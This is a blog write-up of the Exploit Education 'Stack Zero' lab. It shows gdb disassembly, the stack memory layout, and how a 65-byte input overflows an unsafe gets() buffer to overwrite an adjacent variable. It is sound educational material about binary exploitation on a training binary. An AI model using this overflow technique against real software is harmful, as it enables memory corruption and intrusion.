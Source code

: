 ```yaml
---
layout: post
title: Stack Zero Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Zero exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Stack Zero exercise is based on stackoverflow memory corruption issue where you'll have to smash the stack to modify other variables in the stack to achieve code execution, execution flow redirection or behaviour in the program. Technically, `gets` function is unsafe that doesn't have bounds check basically, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-zero code, One can use `gdb ./stack-zero` to start debugging it in runtime.

1. `gdb ./stack-zero`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x00000000004005dd <+0>:     push   rbp
   0x00000000004005de <+1>:     mov    rbp,rsp
   0x00000000004005e1 <+4>:     sub    rsp,0x60
   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004005ec <+15>:    mov    edi,0x400680
   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt>
   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]
   0x0000000000400601 <+36>:    mov    rdi,rax
   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>
   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:    test   eax,eax
   0x000000000040060e <+49>:    je     0x40061c <main+63>
   0x0000000000400610 <+51>:    mov    edi,0x4006d0
   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
   0x000000000040061c <+63>:    mov    edi,0x400708
   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
   0x0000000000400626 <+73>:    mov    edi,0x0
   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-zero using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Set `locals.changeme` variable to `zero` or `0x00` in hex
3. Get `locals.buffer` variable filled by `gets` function
4. Verify `locals.changeme` is not `zero` or `0x00` in hex
5. Use puts(aka Printf) method to greet the user again
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-zero-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe610` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully, thus completing the challenge.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-zero-gdb.jpg)

```assembly

<FIRST TRY - 64 'A' character>

(gdb) r
Starting program: /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[Inferior 1 (process 426) exited normally]

<SECOND TRY - 65 'A' character>

(gdb) r
Starting program: /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 430) exited normally]

```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Zero Exercise: [Exploit Education](https://exploit.education/phoenix/stack-zero/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
